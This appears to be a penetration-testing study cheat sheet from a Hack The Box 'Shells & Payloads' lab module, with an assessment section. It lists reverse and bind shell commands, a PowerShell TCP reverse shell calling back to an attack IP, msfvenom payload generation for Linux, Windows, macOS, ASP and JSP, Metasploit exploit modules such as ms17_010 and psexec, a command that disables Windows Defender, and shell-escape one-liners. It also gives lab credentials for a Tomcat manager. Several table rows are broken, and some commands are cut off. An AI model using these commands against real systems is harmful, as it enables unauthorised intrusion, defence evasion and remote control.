

# 🐚 Shells & Payloads

| Shell Type    | Description                                                                                                                                                                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Reverse shell | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                  |
| Bind shell    | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                   |
| Web shell     | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |

Non-Staged vs Staged Payloads\


Interactive shells

| python -c 'import pty; pty.spawn("/bin/sh")'                           | Python command used to spawn an interactive shell on a linux-based system                        |
| ---------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------ |
| /bin/sh -i                                                             | Spawns an interactive shell on a linux-based system                                              |
| perl —e 'exec "/bin/sh";'                                              | Uses perl to spawn an interactive shell on a linux-based system                                  |
| ruby: exec "/bin/sh"                                                   | Uses ruby to spawn an interactive shell on a linux-based system                                  |
| Lua: os.execute('/bin/sh')                                             | Uses Lua to spawn an interactive shell on a linux-based system                                   |
| awk 'BEGIN {system("/bin/sh")}'                                        | Uses awk command to spawn an interactive shell on a linux-based system                           |
| find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \\; | Uses find command to spawn an interactive shell on a linux-based system                          |
| find . -exec /bin/sh \\; -quit                                         | An alternative way to use the find command to spawn an interactive shell on a linux-based system |
| vim -c ':!/bin/sh'                                                     | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"      |

```
vim
:set shell=/bin/sh
:shell
```

vim escape

## **Laudanum, One Webshell to Rule Them All**

location `/usr/share/laudanum`

## **Antak Webshell**

location `/usr/share/nishang/Antak-WebShell`

| Commands                                                                                                                                            | Description                                                                                                                                                                                  |
| --------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:10.129.x.x /u:htb-student /p:HTB\_@cademy\_stdnt!                                                                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                         |
| env                                                                                                                                                 | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                  |
| sudo nc -lvnp \<port #>                                                                                                                             | Starts a netcat listener on a specified port                                                                                                                                                 |
| nc -nv \<ip address of computer with listener started>\<port being listened on>                                                                     | Connects to a netcat listener at the specified IP address and port                                                                                                                           |
| rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f                                                                                                             | /bin/bash -i 2>&1                                                                                                                                                                            |
| powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();\[byte\[]]$bytes = 0..65535 | %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1                |
| Set-MpPreference -DisableRealtimeMonitoring $true                                                                                                   | Powershell command using to disable real time monitoring in Windows Defender                                                                                                                 |
| use exploit/windows/smb/psexec                                                                                                                      | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec                                                                  |
| shell                                                                                                                                               | Command used in a meterpreter shell session to drop into a system shell                                                                                                                      |
| msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf                                                      | MSFvenom command used to generate a linux-based reverse shell stageless payload                                                                                                              |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe                                                        | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                            |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho                                                    | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                        |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp                                                   | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                            |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp                                                      | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                            |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war                                                      | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                        |
| use auxiliary/scanner/smb/smb\_ms17\_010                                                                                                            | Metasploit exploit module used to check if a host is vulnerable to ms17\_010                                                                                                                 |
| use exploit/windows/smb/ms17\_010\_psexec                                                                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17\_010                                                                     |
| use exploit/linux/http/rconfig\_vendors\_auth\_file\_upload\_rce                                                                                    | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6                                                                      |
| python -c 'import pty; pty.spawn("/bin/sh")'                                                                                                        | Python command used to spawn an interactive shell on a linux-based system                                                                                                                    |
| /bin/sh -i                                                                                                                                          | Spawns an interactive shell on a linux-based system                                                                                                                                          |
| perl —e 'exec "/bin/sh";'                                                                                                                           | Uses perl to spawn an interactive shell on a linux-based system                                                                                                                              |
| ruby: exec "/bin/sh"                                                                                                                                | Uses ruby to spawn an interactive shell on a linux-based system                                                                                                                              |
| Lua: os.execute('/bin/sh')                                                                                                                          | Uses Lua to spawn an interactive shell on a linux-based system                                                                                                                               |
| awk 'BEGIN {system("/bin/sh")}'                                                                                                                     | Uses awk command to spawn an interactive shell on a linux-based system                                                                                                                       |
| find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \\;                                                                              | Uses find command to spawn an interactive shell on a linux-based system                                                                                                                      |
| find . -exec /bin/sh \\; -quit                                                                                                                      | An alternative way to use the find command to spawn an interactive shell on a linux-based system                                                                                             |
| vim -c ':!/bin/sh'                                                                                                                                  | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                  |
| ls -la \<path/to/fileorbinary>                                                                                                                      | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |
| sudo -l                                                                                                                                             | Displays the commands that the currently logged on user can run as sudo                                                                                                                      |
| /usr/share/webshells/laudanum                                                                                                                       | Location of laudanum webshells on ParrotOS and Pwnbox                                                                                                                                        |
| /usr/share/nishang/Antak-WebShell                                                                                                                   | Location of Antak-Webshell on Parrot OS and Pwnbox                                                                                                                                           |

## Assessment

access-creds.txt found in foothold

```jsx
to manage the blog:
- admin / admin123!@#  ( keep it simple for the new admins )

to manage Tomcat on apache
- tomcat / Tomcatadm

Change the passwords soon..
```

[http://172.16.1.11:8080/manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=5D087425CE273DBDB0B3FD7EED95E42C](http://172.16.1.11:8080/manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=5D087425CE273DBDB0B3FD7EED95E42C)
